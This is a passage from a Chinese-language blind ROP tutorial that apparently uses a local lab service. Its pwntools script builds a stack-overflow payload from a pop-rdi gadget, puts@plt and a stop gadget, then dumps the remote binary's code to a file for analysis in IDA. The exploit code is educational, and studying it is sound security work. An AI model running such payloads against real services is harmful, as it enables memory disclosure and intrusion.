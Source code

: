 ```python
            addr += 1
```

确定**puts_got**：

```python
def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
    sh = remote('127.0.0.1', 9999)
    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
        puts_plt) + p64(stop_gadget)
    sh.recvuntil('password?\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        try:
            data = data[:data.index("\nWelCome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        sh.close()
        return None


##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
addr = 0x400000
result = ""
while addr < 0x401000:
    print hex(addr)
    data = leak(length, rdi_ret, puts_plt, addr, stop_gadget)
    if data is None:
        continue
    else:
        result += data
    addr += len(data)
with open('code', 'wb') as f:
    f.write(result)
```

最后，我们将泄露的内容写到文件里。需要注意的是如果泄露出来的是 “”, 那说明我们遇到了'\x00'，因为 puts 是输出字符串，字符串是以'\x00'为终止符的。之后利用 ida 打开 binary 模式，首先在 edit->segments->rebase program 将程序的基地址改为 0x400000，然后找到偏移 0x560 处，如下：
